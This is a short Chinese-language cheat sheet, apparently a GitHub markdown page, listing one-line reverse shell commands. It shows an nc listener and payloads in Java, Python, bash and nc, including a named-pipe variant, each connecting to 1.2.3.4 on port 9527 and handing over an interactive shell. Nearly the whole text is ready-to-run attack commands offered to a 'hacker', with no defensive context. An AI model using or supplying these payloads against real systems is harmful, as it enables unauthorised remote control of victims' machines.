 # 各种语言的一句话反弹shell命令

------

## 被攻击主机先监听端口

这是大前提，至于怎么做就看 hacker 的能力了，最简单脚本可以用 nc ：

```bash
nc -lvvp 9527
```

## 攻击主机连接到服务端口

### JAVA

``` java
Runtime.getRuntime().exec(["/bin/bash","-c","exec 5<>/dev/tcp/1.2.3.4/9527;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); 
```

------

### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",9527));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

------

### bash
```bash
bash -i >& /dev/tcp/1.2.3.4/9527 0>&1
```

------

### nc

```bash
nc -e /bin/sh 1.2.3.4 9527
```

或

```bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc 1.2.3.4 9527 1>/tmp/backpipe
```
